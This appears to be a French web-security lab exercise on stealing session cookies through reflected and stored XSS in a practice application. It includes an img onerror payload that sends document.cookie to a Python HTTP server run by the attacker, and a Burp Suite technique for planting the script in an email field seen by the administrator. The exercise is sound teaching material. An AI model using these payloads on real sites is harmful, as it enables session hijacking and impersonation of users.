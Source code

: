 Vous allez maintenant voler les cookies d'un utilisateur en exploitant cette vulnérabilité. 

Pour ce faire:
- Démarrez un serveur HTTP Python sur le port `443` sur la machine OpenStack
    - `sudo python3 -m http.server 443`

- Créez une URL avec le parametre vulnérable contenant le tag HTML `img` avec `onerror` suivant
    - `this.src='http://ADR-DE-LA-MACHINE-OPENSTACK:443/?c='+document.cookie`

- Testez l'URL créée précédemment depuis votre navigateur
    - Si tout a été fait correctement dans les logs du serveur HTTP, vous allez voir les cookies de votre utilisateur ![Logs du serveur web avec les cookies de l'utilisateur](./webserver_log.png)

- **Avez-vous réussi à exploiter cette vulnérabilité ?**
- **Quelle URL avez-vous utilisé ?**
- **Quels champs contiennent les cookies volés ?**

De même, vous pouvez envoyer un lien avec cette URL à la victime. 
Si la victime ouvre ce lien, les logs du serveur HTTP vont contenir ses cookies.
Ensuite, il sera possible d'usurper son identité grâce à ses cookies.

L'attaque vue ci-dessus est relativement compliquée à réaliser car la victime doit utiliser le lien fourni par l'attaquant. 
Par conséquent, les attaques Reflected XSS et DOM XSS dans la plupart des cas ne sont pas considérées comme critiques.


### Cross-Site Scripting (XSS) - Voler les cookies de l’administrateur
Dans cette section, vous allez exploiter la vulnérabilité de type Stored XSS pour voler les cookies de l'administrateur. 

Pour voler les cookies, vous allez utiliser la technique vue dans la section précédente (une serveur HTTP Python et le code JavaScript dans un tag HTML `img`).

La différence par raport à la section précédente est que vous devez trouver un moyen de publier le code JavaScript qui sera stocké dans la base de données et qui sera exectué sur une page consultée par l'administrateur.

**Indice**: L’adresse email saisie lors de la création de l’utilisateur est validée uniquement côté client et est affichée dans le panneau d'administration. Vous pouvez donc intercepter et modifier la requête de création d'utilisateur en utilisant `Burp Suite` et `Burp Suite Repeater` afin de créer un compte avec l'adresse email contenant du code JavaScript.

Pour vérifier que vous avez réussi à exploiter la vulnérabilité, vous pouvez :
- Accéder au panneau d'administration en utilisant l'injection SQL vue précédemment pour vous authentifier en tant qu'administrateur et en utilisant l'URL `/#/administration`
- Voir si les cookies d'administrateur sont affichés dans les logs du serveur HTTP Python

Si vous ne parvenez pas à récupérer les cookies d'administrateur, n'hésitez pas à consulter le code HTML affiché dans le panneau d'administration pour ajuster votre attaque.

